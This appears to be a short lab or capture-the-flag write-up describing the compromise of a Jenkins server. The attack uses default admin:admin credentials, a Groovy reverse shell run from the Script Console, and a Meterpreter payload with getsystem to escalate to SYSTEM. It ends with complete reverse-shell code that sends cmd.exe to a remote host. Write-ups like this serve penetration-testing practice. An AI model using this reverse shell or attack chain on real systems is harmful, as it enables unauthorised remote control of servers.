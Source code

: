 ![image](https://github.com/user-attachments/assets/7d258d44-c5aa-4bbe-8a91-1799bb24cdd5)
![image](https://github.com/user-attachments/assets/f6c07fdf-38b9-4209-b7b7-1201bb5a8aca)

Try common default cred admin:admin, get in.

Manage Jenkins -> Script Console -> Groovy Reverse Shell -> Run

![image](https://github.com/user-attachments/assets/8a0bc764-55e1-417d-844a-9b6fdd19ad5c)
![image](https://github.com/user-attachments/assets/5b504bbc-a43c-4f34-bdc9-b31de77900a9)
![image](https://github.com/user-attachments/assets/8ea3e0ce-f63e-43a3-8b33-fe1552b25f65)
![image](https://github.com/user-attachments/assets/6d8b8f9f-b8bd-4ae4-b79e-31c5a86890f8)

SharpEfsPotato, PrintSpoofer64.exe, RoguePotato, incognito.exe etc.--> cannot PrivEsc to SYSTEM

![image](https://github.com/user-attachments/assets/a59a788d-1db6-4cce-b015-c42a3e56c6ae)


Use Meterpreter payload

![image](https://github.com/user-attachments/assets/e3e91d1b-74da-4bde-b3a0-b1f04dc43266)
![image](https://github.com/user-attachments/assets/568e1fee-a40a-4315-bf7e-c1af7a4f29c9)
![image](https://github.com/user-attachments/assets/baf95daa-8af2-4944-84f2-59c612f817cd)

1. msfvenom meterpreter payload --> upload to machine

2. msfconsole setting to match paylaod and run --> Start reverse ...
 
3. Powershell Start-Process "revshell.exe" --> trigger the payload

4. user has SeImpersonatePrivilege enabled --> getsystem --> PrivEsc to SYSTEM


Groovy code:

```bash
String host="10.4.95.140";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host, port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)
        so.write(pi.read());
    while(pe.available()>0)
        so.write(pe.read());
    while(si.available()>0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e){}
};
p.destroy();
s.close();
```
